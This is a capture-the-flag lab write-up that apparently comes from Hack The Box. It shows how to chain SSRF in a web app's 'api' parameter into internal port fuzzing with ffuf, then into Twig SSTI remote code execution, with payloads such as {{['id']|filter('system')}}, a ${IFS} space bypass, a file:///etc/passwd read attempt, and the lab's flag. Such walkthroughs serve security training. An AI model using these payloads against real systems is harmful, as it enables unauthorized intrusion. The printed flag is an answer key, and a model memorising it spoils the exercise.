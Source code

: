 ﻿---
sticker: lucide//server
---
## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![Pasted image 20250212154851.png](../../../IMAGES/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![Pasted image 20250212154913.png](../../../IMAGES/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![Pasted image 20250212155010.png](../../../IMAGES/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs:Â `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)`Â creates aÂ **synchronous**Â POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    SetsÂ `Content-Type: application/x-www-form-urlencoded`Â to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameterÂ `api=http://truckapi.htb/?id=<TRUCK_ID>`Â in the request body.
    
    - `encodeURIComponent("=" + truckID)`Â ensures theÂ `=`Â and truck ID are URL-safe (e.g.,Â `%3DFusionExpress01`).
        
    - Final URL sent to the server:Â `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using theÂ `api`Â parameter to fetch data from the internalÂ `truckapi.htb`Â endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesnâ€™t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - DisplaysÂ `data['location']`Â if available, orÂ `data['error']`Â if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element withÂ `id=truckID`Â (e.g.,Â `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts theÂ `api`Â parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![Pasted image 20250212160205.png](../../../IMAGES/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![Pasted image 20250212160429.png](../../../IMAGES/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![Pasted image 20250212160546.png](../../../IMAGES/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![Pasted image 20250212161958.png](../../../IMAGES/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![Pasted image 20250212165927.png](../../../IMAGES/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![Pasted image 20250212170132.png](../../../IMAGES/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![Pasted image 20250212170307.png](../../../IMAGES/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![Pasted image 20250212170624.png](../../../IMAGES/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![Pasted image 20250212170814.png](../../../IMAGES/Pasted%20image%2020250212170814.png)

